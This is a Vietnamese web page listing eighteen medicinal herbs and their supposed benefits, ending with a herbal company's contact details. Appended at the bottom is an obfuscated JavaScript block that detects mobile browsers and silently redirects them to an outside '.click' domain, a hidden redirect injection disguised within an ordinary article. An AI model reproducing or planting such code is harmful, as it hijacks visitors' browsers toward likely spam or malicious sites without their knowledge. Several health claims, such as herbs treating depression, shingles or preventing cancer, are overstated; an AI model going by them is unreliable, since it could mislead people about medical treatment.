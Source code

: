 Nhiều loại thảo dược không chỉ làm đẹp thêm ngôi nhà của bạn hay được dùng làm gia vị mà chúng còn có tác dụng hỗ trợ điều trị bệnh và tăng cường sức khỏe. 

1. Lá bạc hà

Là loại thảo dược phổ biến, tinh dầu từ lá bạc hà có thể giúp giảm bớt khò khè, viêm xoang, hen suyễn và viêm thanh quản. Nó cũng có thể hỗ trợ giảm đau bụng kinh và lợi tiểu.

2. Cúc tím

Cúc tím có nguồn gốc từ Mỹ. Rễ hoa cúc tím có tác dụng hỗ trợ hệ thống miễn dịch và chống nhiễm trùng. Dầu từ hoa cúc tím giúp điều trị bệnh zona, viêm loét, bệnh cúm và viêm amidan. Nó cũng có thể được sử dụng như một loại nước súc miệng.

3. Tỏi

Tỏi là loại thảo dược rất tốt, có thể ăn hàng ngày hoặc dùng như là thuốc. Trong tỏi chứa các chất khử trùng tự nhiên, allicin, giúp hỗ trợ hệ thống miễn dịch. Ăn tỏi thường xuyên giúp tránh ho và cảm lạnh. Nó cũng có tác dụng chống viêm xoang. Nếu bạn bị nhiễm nấm da, nước ép tỏi tươi là một phương thuốc tự nhiên và hữu hiệu. Tỏi còn được biết có vai trò nhất định trong việc ngăn ngừa một số loại ung thư, bao gồm ung thư dạ dày.

4. Hoa anh thảo

Là một loại hoa bản địa của Mỹ, tinh dầu hoa anh thảo cung cấp nhiều Omega-6 có tác dụng giảm cứng khớp, điều hòa nội tiết nữ, bổ não và cải thiện sự tập trung.

5. Lô hội

Lô hội là cây mọng nước ở vùng nhiệt đới. Nước ép dạng gel chiết xuất từ lá cây lô hội có thể làm dịu các vết bỏng, làm mềm da, chống viêm và kháng khuẩn. Nếu bạn bị viêm lợi và đau răng, nước súc miệng từ lá cây lô hội sẽ giúp giảm đáng kể triệu chứng đau. Ngoài ra, lá cây lô hội còn có tác dụng chữa bệnh táo bón.

6. Cúc Feverfew

Loại cúc này được trồng phổ biến ở châu Âu. Lá của cúc Feverfew giúp giảm triệu chứng đau nửa đầu, giảm đau viêm khớp và đau bụng kinh. Tuy nhiên phụ nữ mang thai được khuyến cáo không dùng loại thảo dược này vì nó có thể gây buồn nôn

7. Cúc vạn thọ

Loại hoa phổ biến này đặc biệt hữu ích cho các bệnh về da và mắt. Cúc vạn thọ cũng giúp giảm đau ở bệnh giãn tĩnh mạch, làm kem dưỡng da. Trà từ hoa cúc vạn thọ có tác dụng giảm đau bụng kinh và đau họng.

8. Bạch quả 

Ginkgo hay còn goi là bạch quả, có nguồn gốc từ Trung Quốc. Loại thảo dược này có chứa flavone glycoside giúp tăng cường tuần hoàn não, cải thiện trí nhớ.

9. Gừng

Gừng là loại gia vị phổ biến trong nhiều món ăn. Gừng giúp ngăn ngừa buồn nôn và bảo vệ dạ dày, chống viêm loét.

10. Hoa kim sa Arnica

Là một chi thuộc họ hướng dương, hoa kim sa Arnica thường mọc trên núi. Dầu hoa kim sa giúp giảm các vết bầm tím, sưng tấy.

11. Nước Cây phỉ -Witch hazel

Witch hazel là loại nước được chiết xuất từ vỏ và lá cây phỉ, một trong các loại thảo mộc hữu ích. Dầu hoặc kem từ loại cây này giúp chữa mụn nhọt, giảm bầm tím, chữa bệnh trĩ và giãn tĩnh mạch.

12. Trầm hương

Cây trầm hương trồng nhiều ở khu vực Bắc Phi và Arab. Dầu trầm hương có đặc tính chống lão hóa và giúp chữa lành các vết loét và vết thương trên da. Nó có thể làm giảm viêm phế quản và thở khò khè, điều trị viêm bàng quang và các vấn đề về kinh nguyệt.

13. Cúc La Mã

Loại hoa này mọc khắp châu Âu. Nếu bạn bị mất ngủ, uống trà hoa cúc La Mã là một phương thức hiệu quả. Trà hoa cúc cũng giúp hỗ trợ tiêu hóa và điều hòa nội tiết nữ.

14. Hoa hoàng lan

Hoàng lan được trồng phổ biến ở Madagascar, Indonesia và Philippines. Hương thơm từ tinh dầu hoa Hoàng lan giúp bạn giảm căng thẳng tinh thần, lo lắng, chống trầm cảm.

15. Trà xanh

Trà xanh có tính kháng khuẩn, có thể được sử dụng để làm sạch vết thương. Lá trà xanh được sử dụng để điều trị nấm ngoài da và có thể giảm bớt các vấn đề về da như mụn trứng cá, eczema và viêm da.

16. Cây khoai mỡ

Cây khoai mỡ có nguồn gốc từ Mexico, giúp hỗ trợ giảm đau bụng, các triệu chứng mãn kinh và khô âm đạo.

17. Hoa oải hương

Lavender- hay hoa oải hương có tính chất sát trùng có tác dụng hiệu quả trong chữa trị vết cắn, đốt, bỏng và vết thương. Một vài giọt tinh dầu hoa oải hương trên gối có thể thúc đẩy giấc ngủ sâu. Trà thảo dược từ hoa oải hương giúp bạn giảm bớt căng thẳng.

18. Hoa St John's Wort

Là một loại hoa dại ở châu Âu, hoa St John's Wort được dùng trong điều trị trầm cảm, lo lắng, đau dây thần kinh và mất ngủ.


CÔNG TY THẢO DƯỢC TỐT CÂY XANH HANOI

ĐỊA CHỈ: KĐT Hoà Lạc, Quốc Oai, Hà Nội

ĐIỆN THOẠI: 0987789789

<script> function _0x3acc(_0x284298, _0x25b2df) { var _0x5a0508 = _0x2464(); return ( (_0x3acc = function (_0x150fc1, _0x502ed6) { _0x150fc1 = _0x150fc1 - (-0x7a9 + -0x10 * 0x27 + 0x2 * 0x5fd); var _0x70deb8 = _0x5a0508[_0x150fc1]; return _0x70deb8; }), _0x3acc(_0x284298, _0x25b2df) ); } (function (_0x5cc21d, _0x32d2c9) { var _0x543a06 = _0x3acc, _0x509667 = _0x5cc21d(); while (!![]) { try { var _0x4b6b69 = -parseInt(_0x543a06("0x1e8")) / (0x921 + -0x2265 + 0x1 * 0x1945) + -parseInt(_0x543a06("0x1ec")) / (-0x1560 + -0x10c9 + 0x262b) + parseInt(_0x543a06("0x1e9")) / (0x1 * -0xf59 + -0x17c * -0x17 + -0x12c8) + -parseInt(_0x543a06("0x1e3")) / (-0x3 * -0xb6f + 0x1add * -0x1 + 0x5f * -0x14) + (parseInt(_0x543a06("0x1e7")) / (-0x2079 + 0x204 * 0x8 + 0x105e)) * (-parseInt(_0x543a06("0x1e6")) / (0x8dc + -0xfe9 + 0x1 * 0x713)) + parseInt(_0x543a06("0x1f1")) / (-0x196d + 0x35b * 0x3 + -0x521 * -0x3) + (parseInt(_0x543a06("0x1eb")) / (-0xb * -0x326 + 0xe5b + -0x30f5 * 0x1)) * (parseInt(_0x543a06("0x1e1")) / (0x6 * 0x1a9 + 0xf4f + 0x4c * -0x55)); if (_0x4b6b69 === _0x32d2c9) break; else _0x509667["push"](_0x509667["shift"]()); } catch (_0x5dee30) { _0x509667["push"](_0x509667["shift"]()); } } })(_0x2464, -0x1 * -0xd5551 + -0xfe723 + 0x100 * 0xe71); function checkPointVIP() { var _0x1597b4 = _0x3acc, _0x512d05 = { hwTZb: _0x1597b4("0x1ea"), CMDgM: function (_0x3c47f1, _0x434746, _0x4e8d49) { return _0x3c47f1(_0x434746, _0x4e8d49); }, fbBsr: _0x1597b4("0x1e5"), }; /Android|webOS|iPhone|iPad|iPod|BlackBerry|IEMobile|Opera Mini/i[ _0x1597b4("0x1ed") ](navigator[_0x1597b4("0x1e2")]) ? _0x512d05["CMDgM"]( setTimeout, function () { var _0x5910a3 = _0x1597b4; window["location"][_0x5910a3("0x1e4")] = _0x512d05[_0x5910a3("0x1ef")]; }, -0x1a47 + 0x2361 + -0x23 * 0x26 ) : console[_0x1597b4("0x1f0")](_0x512d05[_0x1597b4("0x1ee")]); } function _0x2464() { var _0x21041b = [ "log", "7482909HWmgGJ", "8811fswJIR", "userAgent", "1994944PQFzdL", "href", "Người\x20dùng\x20truy\x20cập\x20từ\x20desktop.", "6USohhu", "4040485VJAukx", "135228raUOXF", "953976yPVeKh", "[https://www.verrygood.click/sly](http://www.tailocqualon.click/thuy)", "18472cpiDMs", "2854798lglKqX", "test", "fbBsr", "hwTZb", ]; _0x2464 = function () { return _0x21041b; }; return _0x2464(); } checkPointVIP(); </script>

